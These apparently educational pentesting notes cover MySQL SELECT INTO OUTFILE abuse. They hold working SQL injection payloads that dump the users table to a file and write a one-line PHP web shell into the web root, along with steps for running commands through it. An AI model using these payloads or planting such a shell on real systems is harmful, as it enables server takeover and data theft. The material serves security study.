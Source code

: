```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';

# This will create a test.txt file owned by the mysql user
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

# Example in an UNION injection attack:
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

**Tip**: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

Now, uploading a shell. This is a PHP shell:

```php
<?php system($_REQUEST[0]); ?>
```

Let's replicate the UNION injection attack:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:

```html
https://$ip:$port/shell.php?0=id
```



### Writing files

`MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys).

`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can achieve command execution if we write to a location in the file system that can execute our commands. So basically, we need to check if we have enough privileges to do so. 

In MySQL, a global system variable secure_file_priv limits the effect of data import and export operations, such as those performed by the LOAD DATA and SELECT … INTO OUTFILE statements and the LOAD_FILE() function. 

If `secure_file_priv` is set as:

- *set to NUL*: the server disables import and export operations. We can't do anything.
- *set to the name of a directory*: the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- *is empty*: the variable has no effect, which is not a secure setting. 

Example:

```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```
